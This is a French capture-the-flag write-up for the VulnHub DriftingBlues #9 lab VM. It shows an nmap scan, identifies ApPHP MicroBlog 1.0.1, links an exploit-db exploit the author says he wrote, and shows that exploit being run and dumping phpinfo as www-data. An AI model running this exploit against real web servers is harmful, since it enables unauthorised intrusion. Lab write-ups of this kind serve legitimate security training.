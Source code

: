 # Solution du CTF DriftingBlues #9 de VulnHub

Last but not least
------------------

Vu que la 8ème VM DriftingBlues n'est pas sur VulnHub, je m'en prend [au dernier épisode](https://www.vulnhub.com/entry/driftingblues-9-final,695/).  

```plain
Nmap scan report for 192.168.56.13 
Host is up (0.00018s latency). 
Not shown: 65532 closed tcp ports (reset) 
PORT      STATE SERVICE VERSION 
80/tcp    open  http    Apache httpd 2.4.10 ((Debian)) 
|_http-generator: ApPHP MicroBlog vCURRENT_VERSION 
|_http-title: ApPHP MicroBlog 
| http-cookie-flags:  
|   /:  
|     PHPSESSID:  
|_      httponly flag not set 
|_http-server-header: Apache/2.4.10 (Debian) 
111/tcp   open  rpcbind 2-4 (RPC #100000) 
| rpcinfo:  
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind 
|   100000  2,3,4        111/udp   rpcbind 
|   100000  3,4          111/tcp6  rpcbind 
|   100000  3,4          111/udp6  rpcbind 
|   100024  1          44352/udp   status 
|   100024  1          46642/tcp6  status 
|   100024  1          53750/tcp   status 
|_  100024  1          56507/udp6  status 
53750/tcp open  status  1 (RPC #100024)
```

On a une appli web baptisée *ApPHP MicroBlog*. Dans le code HTML de la page on trouve le commentaire suivant :  

```html
This script was generated by ApPHP MicroBlog v.1.0.1 (http://www.apphp.com/php-microblog/) 
```

En cherchant un exploit sur *exploit-db* [j'en trouve un](https://www.exploit-db.com/exploits/33070) qui m'est rapidement familier... car c'est moi qui l'avait écrit... il y a 8 ans. J'avais oublié :p  

La bonne nouvelle c'est qu'il fonctionne toujours comme un charme :  

```python
$ python apphp.py http://192.168.56.13/index.php 
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =- 
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/ 
[*] Testing for vulnerability... 
[+] Website is vulnerable 

[*] Fecthing phpinfo 
        PHP Version 5.6.40-0+deb8u12 
        System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686 
        Loaded Configuration File   /etc/php5/apache2/php.ini 
        Apache Version   Apache/2.4.10 (Debian) 
        User/Group   www-data(33)/33 
        Server Root   /etc/apache2 
        DOCUMENT_ROOT   /var/www/html 
        PHP Version   5.6.40-0+deb8u12 
        allow_url_fopen  On  On 
        allow_url_include  Off  Off 
```